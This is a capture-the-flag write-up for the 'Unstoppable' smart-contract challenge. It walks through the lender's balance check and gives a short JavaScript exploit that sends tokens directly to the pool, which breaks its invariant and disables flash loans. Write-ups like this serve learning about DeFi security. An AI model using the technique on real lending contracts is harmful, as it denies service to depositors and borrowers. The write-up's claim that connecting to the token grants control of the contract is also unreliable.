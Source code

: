 # Challange #1 - Unstoppable

### There’s a tokenized vault with a million DVT tokens deposited. It’s offering <b>flash loans</b> for free, until the grace period ends.

### To pass the challenge, make the vault stop offering <b>flash loans</b>.

<b>_Flash Loans_</b> is located in the <b>UnstoppableLender.sol</b> file.

Challange is to disable the <b>flash loans</b> in the <b>UnstoppableLender.sol</b> file.

this function takes a uint256 borrowAmount as a parameter.

```solidity
function flashLoan(uint256 borrowAmount) external nonReentrant {}
```

now we need to inspect variable poolBalance:

1. ```solidity
   uint256 public poolBalance;
   ```
2. ```solidity
   function depositTokens(uint256 amount) external nonReentrant {
        require(amount > 0, "Must deposit at least one token");
        // Transfer token from sender. Sender must have first approved them.
        damnValuableToken.transferFrom(msg.sender, address(this), amount);
        poolBalance = poolBalance + amount;
    }
   ```
3. ```solidity
   assert(poolBalance == balanceBefore);
   ```

## Best place to exploit

```solidity
assert(poolBalance == balanceBefore);
```

## Exploit

```javascript
it("Exploit", async function () {
	const TokenContractExploit = this.token.connect(attacker);
	await TokenContractExploit.transfer(
		this.pool.address,
		INITIAL_ATTACKER_TOKEN_BALANCE
	);
});
```

## Explanation

```javascript
const TokenContractExploit = this.token.connect(attacker);
```

This line creates a new instance of the token contract (DamnValuableToken) connected to the attacker account.
It allows the attacker account to interact with the token contract, effectively gaining control over it.

```javascript
await TokenContractExploit.transfer(
	this.pool.address,
	INITIAL_ATTACKER_TOKEN_BALANCE
);
```

This line initiates a transfer of tokens from the attacker's controlled instance of the token contract to the lending contract (UnstoppableLender).
The transferred amount is INITIAL_ATTACKER_TOKEN_BALANCE, which is set to 100 tokens.
